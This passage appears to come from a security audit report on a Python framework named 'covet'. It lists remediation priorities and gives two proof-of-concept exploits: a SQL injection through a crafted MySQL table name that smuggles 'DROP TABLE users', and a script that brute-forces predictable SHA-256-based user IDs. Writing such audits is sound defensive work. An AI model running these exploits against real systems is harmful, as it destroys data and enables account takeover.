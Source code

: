 ### MEDIUM PRIORITY (Within 1 Month)
15. All MEDIUM severity vulnerabilities (VULN-020 through VULN-025)

### LOW PRIORITY (Within 3 Months)
16. All LOW severity vulnerabilities (VULN-026 through VULN-029)
17. Security best practices improvements

---

## PROOF OF CONCEPT EXPLOITS

### POC-001: SQL Injection in MySQL Adapter
```python
# Exploit VULN-003
import asyncio
from covet.database.adapters.mysql import MySQLAdapter

async def exploit():
    adapter = MySQLAdapter(
        host='localhost',
        database='production',
        user='app_user',
        password='secret123'
    )
    await adapter.connect()

    # Malicious table name
    malicious_table = "users` WHERE 1=1; DROP TABLE users; --"

    # Triggers SQL injection
    await adapter.get_table_info(malicious_table)
    # Results in: SHOW COLUMNS FROM `production`.`users` WHERE 1=1; DROP TABLE users; --`

asyncio.run(exploit())
```

### POC-002: User ID Prediction
```python
# Exploit VULN-001
import hashlib
import time

def predict_user_ids(username, creation_time_approx, window_seconds=10):
    """
    Predict possible user IDs for a given username
    """
    predictions = []
    start_time = creation_time_approx - window_seconds
    end_time = creation_time_approx + window_seconds

    for offset in range(int((end_time - start_time) * 1000)):  # Millisecond precision
        ts = start_time + (offset / 1000.0)
        user_id = hashlib.sha256(f"{username}{ts}".encode()).hexdigest()[:12]
        predictions.append(user_id)

    return predictions

# Attacker knows user "admin" was created around 1696800000 (Unix timestamp)
possible_ids = predict_user_ids("admin", 1696800000, window_seconds=60)
print(f"Generated {len(possible_ids)} possible user IDs to try")

# Attacker can now attempt authentication with each predicted ID
```